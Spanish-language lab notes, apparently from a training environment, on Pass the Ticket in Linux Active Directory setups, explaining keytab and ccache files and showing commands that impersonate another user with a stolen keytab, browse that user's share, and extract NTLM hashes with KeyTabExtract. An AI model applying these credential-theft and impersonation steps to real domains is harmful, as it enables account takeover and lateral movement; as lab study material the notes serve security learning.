 # Pass the ticket en LINUX

## Conceptos a tener en cuenta

### Keytab

- **Definición:** Un keytab es un archivo que almacena pares de claves (principal y clave) para servicios o usuarios. Estos pares son utilizados por Kerberos para autenticación sin necesidad de que un usuario introduzca manualmente su contraseña.

- Uso: Se usa principalmente en servidores para servicios que necesitan autenticarse en un dominio AD. El archivo keytab permite que estos servicios inicien sesión en Kerberos sin intervención humana.

### Ccache

- **Definición:** Ccache (credential cache) es un archivo utilizado por Kerberos para almacenar tickets de autenticación temporalmente. Cuando un usuario se autentica, Kerberos guarda su Ticket Granting Ticket (TGT) en este archivo.

- Uso: Se utiliza para almacenar tickets que permiten acceder a servicios dentro del dominio AD sin necesidad de volver a autenticarse cada vez.

## Kerberos en Linux

- Autenticación en Kerberos: Cuando un usuario o servicio quiere autenticarse con AD en un entorno Linux, se inicia una solicitud de autenticación Kerberos. Si el usuario ha iniciado sesión, su TGT se almacena en el archivo ccache. Para los servicios que necesitan autenticarse automáticamente, se usa el archivo keytab.

- Acceso a servicios: Una vez autenticado, Kerberos proporciona tickets de servicio almacenados en el ccache. Estos tickets son presentados a servicios dentro del dominio para obtener acceso.

- Configuración: Los archivos keytab se configuran utilizando herramientas como ktutil o mediante scripts proporcionados por administradores de AD. Los ccache se manejan automáticamente por kinit y otros comandos relacionados con Kerberos.

### Comandos utiles

- `realm list` Lista información del AD
- `klist` Lista información de kerberos

### Impersonando un usuario con keytab

```
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```

- Ahora, nos metemos a la carpeta compartida de este nuevo usuario **Carlos**

```
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

## KeyTabExtract abusar

- Para extraer los secretos de un archivo keytab, utilizamos KeyTabExtract.

```python3 keytabexcract.py USER.keytab```

- Ya con el NTLM podemos hacer todos los ataque conocidos